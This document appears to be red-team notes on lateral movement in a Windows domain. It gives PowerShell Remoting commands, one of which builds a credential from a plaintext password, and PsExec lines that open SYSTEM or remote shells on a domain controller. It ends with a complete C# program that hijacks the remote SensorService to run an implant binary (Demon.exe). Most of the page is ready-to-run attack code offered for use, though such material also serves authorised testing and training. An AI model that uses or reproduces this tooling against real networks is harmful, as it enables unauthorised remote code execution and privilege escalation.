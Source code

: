 ## Lateral Movement

Once on a target, it's often useful to pivot internally to other users. Below is a subsection of commands that may be used for this.

### Powershell Remoting

Lovely method if Windows Remote Management is enabled or you are in sufficiently privileged groups as it's built in. Not enabled by default since Server 2012.

```powershell
# Single use as current user
Enter-PsSession -ComputerName dc04.matrix.local

# Create a session object to persist 
$sess = New-PSSession -ComputerName dc04.matrix.local 
Enter-PsSession $sess 

# Use a different account credentials to remote
$x = ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force
$x3 = New-Object System.Management.Automation.PSCredential ("matrix\neo",$x)
Enter-PSSession -ComputerName dc04 -Credential $x3

# Run a command over Windows Remote Management
$sess = New-PSSession -ComputerName dc04.matrix.local 
Invoke-Command -ScriptBlock{whoami} -session $sess
```

### PsExec 

PsExec from SysInternals will create a remote service on the target machine that returns a shell and then starts it. This attack requires administrative rights generally, though read/write to ADMIN$ on the target may be sufficient. It's dinged hard by defender.

```powershell
psexec64.exe -i -s cmd.exe # Locally run cmd.exe as SYSTEM user
psexec64.exe -i \\dc04.matrix.local cmd.exe # Start cmd.exe on the target server dc04
```

### Custom PSExec Code


```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace FilelessLateralMovement
{
    class Program
    {

        [DllImport("advapi32.dll", EntryPoint = "OpenSCManagerW", ExactSpelling = true, CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr OpenSCManager(string machineName, string databaseName,uint dwAccess);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);

        [DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType,int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup,string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword, string lpDisplayName);
        
        [DllImport("advapi32", SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);

        static void Main(string[] args)
        {
            //change this to be the hostname of the target machine
            string target = "dc04";
            IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);

            //Sensor service is present by default, but is not automatically run. We can connect to this and hopefully not disrupt anything on the target.
            string ServiceName = "SensorService";
            IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);

            //Edit the service we started with a desired service to execute
            string payload = "C:\\Windows\\Tasks\\Demon.exe";
            bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);

            //Start the service
            bResult = StartService(schService, 0, null);
        }
    }
}
```